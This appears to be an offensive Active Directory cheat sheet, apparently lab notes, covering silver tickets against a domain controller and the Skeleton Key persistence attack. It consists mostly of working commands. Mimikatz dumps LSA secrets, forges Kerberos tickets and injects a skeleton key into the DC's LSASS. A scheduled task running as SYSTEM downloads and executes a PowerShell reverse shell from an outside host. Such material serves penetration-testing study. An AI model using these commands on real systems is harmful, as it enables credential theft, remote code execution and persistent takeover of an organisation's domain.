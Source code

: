 ```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

### <span style="color:#F1C232">2. Using hash of the Domain Controller computer account, below command provides access to shares on the DC</span>
 
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:star-dc /sid:admin-sid-here /target:star-dc /service:CIFS /rc4:rc4-hash-here /user:Administrator /ptt"'
```

### <span style="color:#F1C232">3. Schedule and execute a task</span>
```powershell
schtasks /create /S star-dc /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://10.10.10.10:8080/Invoke-PowerShellTcp.psi''')'"

schtasks /Run /S star-dc /TN "STCheck"
```

> For accessing WMI, we have to create two tickets: one for HOST service and another for RPCSS
{: .prompt-warning }


# <span style="color:lightblue">Skeleton Key</span>

* Skeleton key is a persistence technique where it is possible to patch a Domain Controller (Lsass process) so that it allows access as any user with a single password.
* The attack was discovered by Dell Secureworks used in a malware named the Skeleton Key malware.
* All the publicly known methods are **NOT persistent across reboots**.

## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Inject the Skeleton key in the DC
- [x] 2. Now we can access any machine with password as `mimikatz`

## <span style="color:lightgreen">Invoke-Mimikatz</span>

### <span style="color:#F1C232">1. Use the below command to inject a skeleton-Key</span>

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton' -ComputerName <computer-name>
```
> Skeleton Key password is : **mimikatz**
{: .prompt-info }

### <span style="color:#F1C232">2. Now we can access any machine with valid username and password as mimikatz</span>

